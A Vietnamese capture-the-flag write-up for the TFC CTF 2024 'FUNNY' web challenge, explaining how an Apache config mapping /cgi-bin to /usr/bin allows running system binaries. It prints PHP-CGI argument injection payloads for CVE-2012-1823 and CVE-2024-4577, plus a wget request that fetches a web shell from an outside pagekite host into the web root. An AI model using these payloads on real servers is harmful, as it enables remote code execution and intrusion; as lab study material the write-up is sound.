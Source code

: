# FUNNY (MEDIUM)

## PREVIEW

![image](https://hackmd.io/_uploads/HJ0dj31qA.png)

Chức năng Generate Joke

![image](https://hackmd.io/_uploads/Syijj2k5A.png)

## SOURCE CODE

![image](https://hackmd.io/_uploads/B1yT22k50.png)

File `index.php` không có gì ngoài in ra phần tử bất kì của mảng `jokes`

![image](https://hackmd.io/_uploads/Sk31p2k9A.png)

Vậy chắc chắn điều thú vị sẽ nằm trong file `httpd.conf`.

Trong file config có đoạn như sau:

```!
LoadModule cgi_module modules/mod_cgi.so
[...]
ScriptAlias /cgi-bin /usr/bin
Action php-script /cgi-bin/php-cgi
AddHandler php-script .php

<Directory /usr/bin>
    Order allow,deny
    Allow from all
</Directory>
```

Đầu tiên nó sẽ load `cgi_module` [Apache module](https://httpd.apache.org/docs/current/mod/mod_cgi.html).

> Vậy thì CGI là gì?
> CGI (Common GateWay Interface) định nghĩa cách 1 web server tương tác với các trình tạo nội dung bên ngoài, thường được gọi là CGI programs hay CGI scripts. Nó tạo ra 1 cách đơn giản để đưa các dynamic content lên website của bạn, sử dụng bất kì ngôn ngữ lập trình nào bạn quen nhất. Link dưới đây sẽ giới thiệu cách setting CGI cho Apache web server và bắt đầu viết các CGI programs của bạn. https://httpd.apache.org/docs/current/howto/cgi.html

Thông thường thì khi user gửi request tới path mà ràng buộc với CGI script, web server sẽ chạy CGI script và trả về kết quả tới user.

Trong trường hợp này, path `/cgi-bin` sẽ ràng buộc tới path trên OS là `/usr/bin` (`ScriptAlias /cgi-bin /usr/bin`). Bởi vì `/usr/bin` là nơi chứa các binaries, thì điều gì sẽ xảy ra nếu ta gửi 1 requets đến `/cgi/<binary-command>`?

Đầu tiên chạy docker web challenge của chúng ta. 
Thử request 1 command đơn giản xem. `/cgi-bin/id`

```!
2024-08-07 01:23:36 [Tue Aug 06 18:23:36.379654 2024] [cgi:error] [pid 92:tid 113] [client 172.17.0.1:55006] malformed header from script 'id': Bad header: uid=1000(www) gid=1000(www) gr
```

![image](https://hackmd.io/_uploads/r1B8cke9R.png)

Nó đã thực thi lệnh của chúng ta. Nhưng nếu chúng ta thêm các argument vào request thì sao?

![image](https://hackmd.io/_uploads/rJ10q1xqA.png)

`script not found or unable to stat`. Có vẻ như viết command bình thường với các argument sẽ không được thực thi. Tính sau vậy :>

Phần tiếp theo mình tìm được trong file config đó là nếu user request đến path kết thúc với extension `.php`, web server sẽ phân tích tập lệnh PHP thành [PHP CGI](https://www.php.net/manual/en/install.unix.commandline.php). Thực thi PHP script với PHP CGI thay vì PHP interpreter.

```!
Action php-script /cgi-bin/php-cgi
AddHandler php-script .php
```

Cuối cùng thì `/usr/bin` cho phép tất cả ai cũng có thể truy cập được.

```!
<Directory /usr/bin>
    Order allow,deny
    Allow from all
</Directory>
```

Quay trở lại với vấn đề chính là sao mà chúng ta có thể inject thêm được các argument cho command của chúng ta. Search với key word `PHP CGI argument injection`. Search bằng google và cả ChatGPT mình được các kết quả sau:
```!
1. CVE-2012-1823:
http://vulnerable/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
2. CVE-2024-4577:
/?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input=null
```

1 cái sử dụng `%AD` (kí tự gạch nối mềm - soft hyphen) và 1 cái sử dụng dấu `?` để thêm argument đầu tiên và các argument tiếp theo chỉ cần dấu `+` (dấu backspace đó). Test thử thôi.

![image](https://hackmd.io/_uploads/H1VlRJlqA.png)

Kết quả thành công. `id -u` ra kết quả `1000` trong `uid=1000(www) gid=1000(www) gr`. 

Check xem trong `/usr/bin` có binary nào có thể sử dụng để lấy flag hay không. Có 1 thứ hay ho ở đây.

```!
/ # ls -la /usr/bin | grep wget
lrwxrwxrwx 1 root root      12 Jul 22 14:34 wget -> /bin/busybox
```

Lúc đầu mình đã loay hoay thử cat luôn flag và gửi luôn sang webhook nhưng mà không được. Nhận ra rằng sử dụng web shell luôn thì hay hơn vì nhớ lại ở trên config vẫn cho up shell mà. (`cat`, và `more` thì đều ở `/bin`, còn `less` thì không dùng được...)

Host file web shell với pagekite.

![image](https://hackmd.io/_uploads/B1P-wxe5A.png)

Payload: `/cgi-bin/wget?https://perritoo.pagekite.me/webshell.php+-O+/var/www/public/webshell.php`
Như đã nói ở trên thì các argument tiếp theo chỉ cần dấu `+`, nếu vẫn thay bằng dấu `?` thì bị lỗi đó. 

![image](https://hackmd.io/_uploads/B1f2wll5A.png)
![image](https://hackmd.io/_uploads/SyfTDeg50.png)

Mở challenge và thực hiện thôi. 

![image](https://hackmd.io/_uploads/rJAV_xg5C.png)

Flag: `TFCCTF{1_4lm0st_f0rg0t_t0_push_th1s_fl4g_t0_th3_c0nt4in3r}`


**Thanks for [this](https://siunam321.github.io/ctf/TFC-CTF-2024/Web/FUNNY/) writeup. **

